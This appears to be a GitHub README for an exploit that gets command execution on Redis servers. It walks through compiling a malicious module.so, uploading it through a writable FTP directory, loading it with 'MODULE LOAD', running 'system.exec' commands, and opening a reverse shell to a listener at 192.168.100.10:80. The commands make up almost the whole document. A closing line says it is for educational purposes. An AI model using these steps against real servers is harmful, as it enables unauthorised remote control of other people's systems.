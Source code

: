 # Redis Server Module Load Command Execution

# Usage
## compile module.so
```bash
git clone https://github.com/binaryxploit/redis-module-load-cmd-exec.git
cd ./redis-module-load-cmd-exec
make
```
## Find a way to upload module.so - POC
- Example: 
- ftp access with writable pub directory.
- PATH `/var/ftp/pub/`
```
ftp> put module.so
```
## Load the module via `redis-cli` tool for command execution
```bash
# Required tools
sudo apt-get install redis-tools -y

# Load module.so form uploaded path
REDIS-CLI:6379> MODULE LOAD /var/ftp/pub/module.so

# List Loaded modules
REDIS-CLI:6379> MODULE LIST

# Command Execution
REDIS-CLI:6379> system.exec "id"

# Reverse Shell
nc -nvlp 80
REDIS-CLI:6379> system.rev 192.168.100.10 80
```
---
This exploit is an aggregation of the following exploits, created for understanding and educational purposes.
- Credits:
  - https://github.com/RedisLabsModules/RedisModulesSDK
  - https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

